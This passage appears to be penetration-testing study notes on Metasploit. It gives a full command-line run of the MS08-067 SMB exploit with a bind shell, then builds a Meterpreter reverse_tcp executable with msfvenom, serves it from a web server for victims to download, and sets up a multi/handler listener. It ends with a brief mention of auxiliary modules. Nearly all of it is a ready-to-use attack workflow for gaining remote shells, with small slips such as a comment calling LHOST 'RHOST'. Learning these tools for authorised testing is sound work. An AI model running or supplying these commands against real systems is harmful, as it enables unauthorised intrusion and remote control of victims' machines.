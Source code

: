 ### Metasploit cli

Run the same exploit as above from the command line.

```
# 1st method:
msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST 10.0.0.26; set PAYLOAD windows/shell_bind_tcp; set LHOST 10.0.0.190; run"
# 2nd method (LHOST not needed):
msfconsole -x "use windows/smb/ms08_067_netapi; set RHOST 10.0.0.26; set PAYLOAD windows/shell_bind_tcp; run"

```

## Standalong Payloads with Msfvenom

```
msfvenom -h
msfvenom -l payloads # list available payloads
msfvenom -p windows/meterpreter/reverse_tcp # select a payload
msfvenom -p windows/meterpreter/reverse_tcp --list-options # see payload options
msfvenom --list formats # shows output format
# putting it all together:
# creates a reverse terminal payload that connects to port 192.168.20.9:12345
# and the window is a windows executable
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=12345 -f exe
> chapter4example.exe
file chapter4example.exe
```

now we can server the payload via a web server:

```
cp chapter4example.exe /var/www
service apache2 start
# now the payload can be downloaded using a web browser at 
# http://[machine ip]/chapter4example.exe
```

now we need to set up a listener for the reverse connection from the payload:

```
msfconsole # starts the console
use multi/handler # loads the exploit module
set payload windows/meterpreter/reverse_tcp
show options # show options that must be provided to use the exploit
set LHOST 192.168.20.10 # sets the RHOST option
set LPORT 12345
exploit
```

## Using Auxiliary Modules

auxiliary modules are used for tasks other than exploitation. This example is a module that enumerates the listening pipes on an SMB server.
